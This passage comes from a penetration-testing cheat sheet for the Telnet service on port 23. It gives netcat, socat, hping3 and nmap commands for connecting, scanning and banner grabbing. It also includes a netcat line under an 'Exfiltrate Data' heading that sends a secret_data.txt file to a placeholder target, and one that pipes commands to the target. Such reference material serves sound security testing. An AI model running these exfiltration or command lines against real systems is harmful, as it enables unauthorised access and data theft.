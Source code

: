    ```bash
    nc <target_ip> 23 -u
    ```
*   **Execute Commands:** Execute commands on target.

    ```bash
    echo "<command>" | nc <target_ip> 23
    ```
*   **Exfiltrate Data:** Exfiltrate data over specified port.

    ```bash
    nc <target_ip> 23 < secret_data.txt
    ```

#### \[\[SoCat Cheat Sheet]]

*   **Socat TCP Connect:** Simple test to verify port service is running and responding.

    ```bash
    socat - TCP:<target_ip>:23
    ```

#### \[\[HPing3 Cheat Sheet]]

*   **Send UDP Packet:** Send a single UDP packet to the service.

    ```bash
    hping3 -2 <target_ip> -p 23 -c 1
    ```

### Other Techniques

## Penetration Testing Techniques

### External Reconnaissance

#### Port Scanning

*   **Tool:** \[\[Nmap]]

    ```bash
    nmap <target_ip> -p 23
    ```
* **Description:** Identifies if the target service is running on the target by scanning target port.

#### Service Enumeration

*   **Tool:** \[\[NetCat]]

    ```bash
    nc <target_ip> 23
    ```
* **Description:** Retrieves the service banner to identify the software version and potential vulnerabilities.
